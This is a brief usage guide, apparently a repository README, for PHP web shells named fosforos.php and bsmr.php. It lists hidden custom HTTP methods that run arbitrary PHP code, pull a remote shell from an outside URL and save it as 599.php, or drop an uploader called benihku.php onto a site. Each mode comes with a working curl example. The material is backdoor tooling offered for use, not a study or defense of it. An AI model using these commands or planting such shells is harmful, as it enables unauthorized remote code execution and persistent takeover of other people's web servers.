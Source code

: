 
#fosforos.php
use = ssl://sitename.domain/path/filename.php?FosforoS

#bsmr.php

[    SAYANGKAMU    ]      = for input php code without '<?php' and '?>'
example with params     = SayangKamu=echo "kamu siapa?";
example with curl       = curl -X SAYANGKAMU urldomain/path/filename.ext -d 'SayangKamu=echo "kamu siapa?"; '
[    SAYANG599     ]      = for input shell by url  
example with params     = SAYANG599=http://ase.de/kont.ol
example with curl       = curl -X SAYANG599DONG urldomain/path/filename.ext -d 'SAYANG599=http://ase.de/kont.ol'
filename if use SAYANG599 599.php
[ SAYANGAKUMASUKIN ]      = for add uploader in site
example with params     = ( this not use param ~.~ )
example with curl       = curl -X SAYANGAKUMASUKIN urldomain/path/filename.ext 
filename if use SAYANGAKUMASUKIN benihku.php

    

